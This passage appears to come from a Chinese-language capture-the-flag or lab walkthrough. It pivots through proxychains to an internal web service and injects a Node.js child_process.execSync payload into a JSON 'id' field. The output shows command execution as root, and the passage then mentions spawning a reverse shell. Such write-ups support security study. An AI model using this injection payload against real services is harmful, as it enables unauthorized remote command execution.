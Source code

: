 ```
[root@kali] /home/kali  
❯ proxychains curl -X POST "http://40.40.40.3:9999/" 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Dynamic chain  ...  127.0.0.1:1080  ...  40.40.40.3:9999  ...  OK
{"message":"POST request received","users":[{"id":1,"name":"DrZunder"},{"id":2,"name":"DrMario"},{"id":3,"name":"App"},{"id":4,"name":"Node"},{"id":"Error","name":"Command error"}]}#     
```

这个错误消息似乎说明了，该网站对**Json**内容的解析有问题

尝试发送修改后的**id**字段，看到命令执行的结果

```
[root@kali] /home/kali  
❯ proxychains curl -s -X POST "http://40.40.40.3:9999" -H 'Content-Type: application/json' -d '{"id": "require(\"child_process\").execSync(\"id\").toString()"}'
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Dynamic chain  ...  127.0.0.1:1080  ...  40.40.40.3:9999  ...  OK
{"message":"POST request received","users":[{"id":1,"name":"DrZunder"},{"id":2,"name":"DrMario"},{"id":3,"name":"App"},{"id":4,"name":"Node"},{"id":"Error","name":"Command error"}],"result":"uid=0(root) gid=0(root) groups=0(root)\n"}#      
```

并且当前用户的**root**权限

![](./images/image-138.png)

直接反弹**shell**就行了

## ReverseShellBridges

反弹**Shell**的全部代理

![](./images/image-139.png)

![](./images/image-140.png)

![](./images/image-141.png)
